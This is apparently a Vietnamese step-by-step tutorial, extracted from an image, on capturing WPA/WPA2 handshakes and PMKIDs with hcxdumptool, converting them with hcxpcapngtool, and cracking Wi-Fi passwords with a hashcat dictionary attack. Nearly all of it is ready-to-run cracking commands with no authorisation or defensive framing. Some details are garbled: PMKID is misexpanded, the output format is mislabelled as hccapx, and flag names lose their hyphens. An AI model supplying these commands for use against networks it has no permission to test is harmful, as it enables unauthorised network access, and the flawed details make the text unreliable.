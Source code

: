 > Sử dụng hcxdumptool để thu thập thông tin:
> 
#### Bước 1: Mở terminal và chạy lệnh sau để kiểm tra các giao diện mạng có sẵn:
        
```css
hcxdumptool -iwlan0 --check
```
        
#### Bước 2: Chạy lệnh sau để thu thập thông tin gói tin handshake từ một mạng Wi-Fi cụ thể:
        
```css
hcxdumptool -i wlan0 -o capture.pcapng --enable_status=1 --filterlist=filter.txt
```
        
##### Trong đó:
        
- **`i wlan0`** là tên giao diện mạng bạn muốn sử dụng.
- **`o capture.pcapng`** là tên tệp PCAP để lưu trữ gói tin thu thập được.
- **`-enable_status=1`** để hiển thị trạng thái thu thập gói tin trên terminal.
- **`-filterlist=filter.txt`** là tệp chứa danh sách các BSSID (địa chỉ MAC của điểm truy cập) mà bạn muốn thu thập.
#### Bước 3: Để thu thập thông tin PMKID (Pre-Shared Master Key Identifier), chạy lệnh sau:
```css
hcxdumptool -i wlan0 -o capture.pcapng --enable_status=1 --filterlist=filter.txt --pmkid
```
        
### PKMID là gì?
PMKID (Pre-Shared Master Key Identifier) là một giá trị nhận dạng được sử dụng trong giao thức bảo mật Wi-Fi WPA/WPA2. PMKID là một phần của quá trình xác thực khóa chia sẻ trước (pre-shared key) giữa thiết bị client và điểm truy cập (AP).
            
Khi một thiết bị client muốn kết nối với một mạng Wi-Fi sử dụng WPA/WPA2, quá trình xác thực sẽ diễn ra. Trong quá trình này, PMKID được tạo ra từ pre-shared key (PSK), địa chỉ MAC của client (PMKID được liên kết với client) và địa chỉ MAC của điểm truy cập (AP).
            
    
> Sử dụng hcxtools để xử lý thông tin thu thập:
> 
#### Bước 1: Mở terminal và chạy lệnh sau để chuyển đổi tệp PCAP thành định dạng hccapx:
    
```
hcxpcapngtool -z capture.pcapng -j output.16800
```
    
#### Bước 2: Để xem thông tin trong tệp hccapx, chạy lệnh sau:
    
```
hcxinfo output.16800
```
    
#### Bước 3: Để tìm kiếm mật khẩu bằng cách sử dụng tệp hccapx và từ điển, chạy lệnh sau:
```
hashcat -m 16800 -a 0 output.16800 dictionary.txt
```
    
